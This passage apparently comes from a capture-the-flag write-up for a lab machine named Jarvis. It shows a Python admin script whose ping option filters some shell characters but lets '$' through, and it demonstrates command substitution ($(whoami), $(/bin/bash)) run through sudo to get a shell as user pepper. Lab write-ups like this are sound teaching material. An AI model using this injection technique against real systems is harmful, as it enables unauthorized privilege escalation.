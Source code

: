```text
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The “_-p_” option calls the _exec\_ping\(\)_ command. This command takes in user provided input and checks if the following characters are part of the input: ‘&’, ‘;’, ‘-’, ‘\`’, ‘\|\|’, ‘\|’. If it finds one of these characters, it prints out the message “Got you” and terminates the program. Otherwise, it executes the ping command on the user provided input.

Notice that the dollar sign is allowed, so I can use that to get a privileged shell. Take for example the following command.

```text
www-data@jarvis:/var/www/Admin-Utilities$ ping $(whoami)ping: www-data: Temporary failure in name resolution
```

Whatever is in the parenthesis will be executed first and the output of it will be passed to the ping command. Therefore, as can be seen in the above output, it resolved the _whoami_ command to “_www-data_” and then it tried to ping the output of the command.

So to escalate our privileges to pepper, in the IP address field, we just run the $\(/bin/bash\) command.

```text
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************Enter an IP: $(/bin/bash)
pepper@jarvis:/$ whoami
pepper@jarvis:/$ cat /home/pepper/user.txt
```
